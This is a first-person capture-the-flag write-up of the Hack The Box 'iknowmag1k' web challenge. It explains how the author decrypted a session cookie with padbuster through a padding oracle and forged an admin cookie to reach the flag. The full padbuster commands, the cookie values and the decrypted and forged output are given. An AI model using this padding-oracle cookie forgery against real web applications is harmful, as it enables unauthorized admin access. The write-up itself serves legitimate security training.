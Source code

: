 # iknowmag1k challenge
## Walkthrough on how I did it.
**(The main goal: Can you get to the profile page of the admin?)
**Step one - making an account and intercepthing what is going on**
I simply made a login and logged in while intercepting traffic using Burpsuite.
What I saw was while refreshing: docker.hackthebox.eu:PORT/profile.php - I saw 3 cookies:
Cookie	PHPSESSID	3ol2uopq472ov8sigsbmolh9b3
Cookie	__auc	68adfe0116782dca854895bb93b
Cookie	iknowmag1k	q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D
This was the only thing the really stood out to me, since there was nothing else that seemed 'weird'.
After this I thought: "Hmmm, maybe I can decode this and find some sort of thing that can help me get to the admin page!"

**Step two - find out how to crack this cookie and figuring out what to do with it.**
So I googled for a bit and found out that this sort of cryptography is called oracle padding or something like that, and I quickly saw that it was possible to crack this with a tool called: 'padbuster'.
I googled padbuster and found some basic info on how to use this, and figured out I needed the PHPSESHSSID and the iknowmag1k cookie and the url.
$padbuster http://docker.hackthebox.eu:47167/profile.php q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D --cookies "PHPSESSID=3ol2uopq472ov8sigsbmolh9b3;iknowmag1k=q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D" 8 --encoding=0
And here is what I got: 
** Finished **
[+] Decrypted value (ASCII): {"user":"anders","role":"user"}
So I figured: "That's it! Now I just need to change the role from "user" to "admin", and then encode it again and send that as a response!"
So that is what I did:
$padbuster http://docker.hackthebox.eu:47167/profile.php q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D --cookies "PHPSESSID=3ol2uopq472ov8sigsbmolh9b3;iknowmag1k=q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"
Which gave me:
** Finished **
[+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D
So I simply just changed the "iknowmag1k" cookie with the new one and then got the flag.
